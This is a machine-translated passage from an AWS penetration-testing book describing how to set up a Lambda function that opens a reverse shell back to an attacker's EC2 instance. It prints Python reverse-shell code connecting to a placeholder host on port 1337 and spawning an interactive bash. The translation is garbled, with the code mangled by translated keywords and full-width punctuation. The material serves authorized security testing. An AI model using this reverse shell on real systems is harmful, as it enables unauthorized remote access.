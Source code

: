 ## 道德黑客游戏计划

让我们来了解一下 shell，现在我们了解了一些关于 shell 的背景知识以及它们对 pentesting 的影响。在实际执行之前，我们将查看事件的顺序。在执行攻击路径时，最好在执行之前制定好游戏计划：

1.  使用公共 DNS 启动 EC2 实例。
2.  创建一个易受攻击的 Lambda 函数，该函数将回调公共 DNS。
3.  在 EC2 实例上启动侦听器。
4.  测试并运行易受攻击的 Lambda 函数。
5.  拿个贝壳。

### 得到一个贝壳

现在我们已经有了一个游戏计划，让我们继续并启动我们之前创建的 EC2 实例。一旦启动并运行，继续并登录到我们的 Lambda 仪表板。现在，让我们通过以下步骤来了解如何执行此操作：

1.  From here we will click the **Create function** button to get started:

    ![Figure 7.6 – Creating another function ](image/Figure_7.06_B15630.jpg)

    图 7.6–创建另一个功能

2.  Once you have logged in, create a new function and name it **LambdaShell** and ensure that **Python 2.7** is selected. The role we created will work for this example:

    ![Figure 7.7 – Creating a function for a reverse shell  ](image/Figure_7.07_B15630.jpg)

    图 7.7–为反向外壳创建函数

3.  Now it's time to start setting up our function to create a reverse connection to the EC2 instance. I set up a GitHub repository from which we can pull the code: [https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt](https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt).

    您输入的代码应该如下所示：

    **导入套接字，子流程，操作系统**

    **def lambda_ 处理程序（事件、上下文）：**

    **#TODO 执行**

    **s=socket.socket（socket.AF\u INET，socket.SOCK\u STREAM）**

    **s.connect（“<主机名>”，1337））**

    **os.dup2（s.fileno（），0）**

    **os.dup2（s.fileno（），1）**

    **os.dup2（s.fileno（），2）**

    **p=subprocess.call（[“/bin/bash”，“-i”）；**

    这里的代码实质上是设置一个名为**lambda_handler**的函数，该函数将执行从 lambda 函数到攻击者机器的连接。请注意，当我们调用**s.connect**时，我们需要将我们的**公共 DNS**放在代码中，其中显示**主机名**。一旦函数被执行，它将启动一个到我们机器的连接，并在目标 Lambda 函数上执行一个 bashshell。

    确保您指定要使用的**端口**，并且**主机名**已设置为 EC2 实例上攻击者机器的公共 DNS 名称。您可以通过查看您的 Kali EC2 实例的描述（可在 EC2 仪表板上找到）来查看公共 DNS 名称。

